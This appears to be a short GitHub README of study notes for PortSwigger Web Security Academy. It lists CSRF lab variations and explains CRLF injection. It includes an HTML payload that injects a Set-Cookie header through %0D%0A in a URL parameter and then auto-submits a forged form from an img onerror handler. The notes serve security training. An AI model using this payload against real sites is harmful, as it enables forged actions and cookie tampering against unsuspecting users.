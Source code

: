 <h1 align="center">Portswigger</h1>
<p align="center">This page is about portswigger.net</p>

See more:

https://portswigger.net/web-security

## Variations of Cross-site request forgery (CSRF)
* CSRF where token validation depends on request method
* CSRF where token validation depends on token being present
* CSRF where token is not tied to user session
* CSRF where token is tied to non-session cookie
* CSRF where token is duplicated in cookie
* CSRF where Referer validation depends on header being present
* CSRF with broken Referer validation

### Two actions in just one open
##### With CRLF (%0D%0A) Injection: 
_When a browser sends a request to a web server, the web server answers back with a response containing both the HTTP response headers and the actual website content, i.e. the response body. The HTTP headers and the HTML response (the website content) are separated by a specific combination of special characters, namely a carriage return and a line feed. For short they are also known as CRLF(%0D%0A)._

See more: https://book.hacktricks.xyz/pentesting-web/crlf-0d-0a

%3B = ";"

As the content of "src" attribute is invalid (it set a cookie on client's browser), the content of "onerror" (a submit) will execute in sequence.

```html
<img src="https://URL/?search=test%0D%0ASet-Cookie:%20csrfKey=YOUR-KEY%3b%20SameSite=None" --action #1 - set a cookie
  onerror="document.forms[0].submit()"> -- action #2 - submit
```
